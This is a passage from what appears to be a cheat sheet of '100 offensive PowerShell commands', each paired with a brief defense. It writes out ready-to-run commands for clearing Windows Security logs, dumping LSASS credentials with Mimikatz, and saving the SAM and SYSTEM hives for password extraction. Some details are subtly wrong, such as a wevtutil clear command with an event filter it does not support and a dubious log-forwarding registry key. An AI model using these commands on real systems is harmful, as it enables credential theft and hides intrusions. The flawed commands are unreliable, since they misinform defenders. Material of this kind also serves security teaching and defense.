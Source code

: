 
### **10. Log Tampering**  
#### **Offensive Command**  
```powershell  
# Clear specific event log entries (stealthy)  
wevtutil.exe cl Security /q:"*[System[(EventID=4688)]]"  
```  
- **Purpose**: Deletes logs for Event ID 4688 (process creation).  

#### **Defense**  
- Forward logs to a SIEM:  
  ```powershell  
  Set-ItemProperty -Path "HKLM:\Software\Microsoft\Windows\EventLog\Forwarding" -Name "ForwardingEnabled" -Value 1  
  ```  

---

### **Key Defensive Strategies**  
1. **Harden PowerShell**:  
   ```powershell  
   Set-ExecutionPolicy Restricted; $ExecutionContext.SessionState.LanguageMode = "ConstrainedLanguage"  
   ```  
2. **Enable Advanced Logging**:  
   ```powershell  
   Set-ItemProperty -Path "HKLM:\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging" -Name "EnableScriptBlockLogging" -Value 1  
   ```  
3. **Deploy EDR/XDR**: Tools like **Microsoft Defender for Endpoint** or **CrowdStrike Falcon**.  
4. **Monitor Process Creation**:  
   ```powershell  
   Get-WinEvent -LogName Security -FilterXPath '*[System[EventID=4688]]' | Where-Object { $_.Message -match "Invoke-Mimikatz" }  
   ```  

---


---

### **100 Offensive PowerShell Commands**  
*(Categorized for clarity, with defensive countermeasures)*  

---

### **1. Credential Theft**  
#### **Extract LSASS Memory**  
```powershell  
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonpasswords"'  
```  
- **Defense**: Enable **LSASS Protection** (`RunAsPPL` registry key).  

#### **Dump SAM Database**  
```powershell  
reg save HKLM\SAM C:\SAM.save; reg save HKLM\SYSTEM C:\SYSTEM.save  
```  
- **Defense**: Restrict access to SAM/SYSTEM hive files.  
